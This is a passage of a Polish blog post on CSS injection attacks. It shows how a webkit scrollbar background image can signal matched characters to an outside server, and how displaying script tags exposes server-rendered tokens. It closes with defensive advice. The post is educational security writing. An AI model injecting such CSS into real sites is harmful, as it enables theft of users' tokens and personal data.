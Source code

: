 <ul>
    <li>załaduj stronę w iframe</li>
    <li>wstrzyknij CSS (dokładnie tak jak w poprzednim przykładzie)</li>
    <li>jeśli w iframie pojawi się scrollbar -&gt; trafiłaś/eś w kombinację znaków!</li>
</ul>

Ale co z tego, że pojawia się scrollbar, skąd będziesz o tym wiedział(a)? Otóż <strong>w przeglądarkach opartych o webkit scrollbarom można ustawić tło w postaci obrazka. </strong>Mamy trafienie, widoczny jest scrollbar, przeglądarka próbuje pobrać obrazek i otrzymujemy informację na naszym serwerze!

<pre class="language-css"><code>body::-webkit-scrollbar:horizontal {
  background: url(https://typeofweb.com/match);
}</code></pre>

Teraz wystarczy tylko to kilka razy powtórzyć :)

Jeszcze dokładniejszy opis przeprowadzenia tego ataku (wraz z kodem!) znajdziecie na stronie <a href="https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/#attachment_22102">sekurak.pl</a>. Na samym końcu wpisu jest też filmik prezentujący końcowy efekt.

<h2>Stosowanie ataków CSS do kodu JS</h2>

Często zdarza się, że w aplikacjach internetowych część kodu generowana jest po stronie serwera — czasem również kodu JS. Pracowałem nawet przy projekcie, gdzie po stronie serwera generowany był token dla użytkownika, a następnie był on renderowany do HTML w postaci prostego tagu <code>&lt;script&gt;</code>. <strong>Czy na taki kod JS również można zastosować powyższe ataki? Ależ tak!</strong>

Wystarczy, że dodasz do swojego CSS-a taki fragment kodu i wszystkie powyższe ataki staną się możliwe:

<pre class="language-css"><code>script {
  display: block;
}</code></pre>

Nie wierzysz?

https://youtu.be/rlWYb_b3qi0

<h2>Podsumowanie</h2>

Cały kod oraz moje slajdy znajdziecie w repozytorium: <a href="https://github.com/typeofweb/unleashconf-css-hacking-2017">https://github.com/typeofweb/unleashconf-css-hacking-2017</a>

Z tego wpisu warto zapamiętać kilka rzeczy:

<ul>
    <li><strong>wstrzykiwałem wyłącznie CSS</strong>. Nie musiałem szukać podatności XSS, SQLi, czy jakiejkolwiek innej, aby dobrać się do danych ofiary — wystarczył tylko CSS.</li>
    <li><strong>rzadko myślimy o zabezpieczaniu CSS-a</strong>. Praktycznie nigdy nie traktujemy go jako możliwego wektoru ataku — a jak się okazuje, to błąd!</li>
    <li><strong>sam CSS wystarczy, aby zrobić komuś krzywdę</strong> — kraść możemy przecież nie tylko tokeny, ale np. numer telefonu, PESEL, czy nazwisko panieńskie matki, albo podobne wrażliwe dane, które mogą się okazać przydatne przy przeprowadzaniu innych ataków</li>
    <li><strong>postaraj się pomyśleć nad tym jak ładujesz swój CSS</strong></li>
    <li><strong>nie pozwalaj na ładowanie aplikacji wewnątrz <code>iframe</code></strong> — wystarczy jeden nagłówek</li>
</ul>

A Ty co sądzisz o tego typu atakach? A może znasz jakieś inne nietypowe zagrożenia związane z CSS? Napisz o tym w komentarzu!
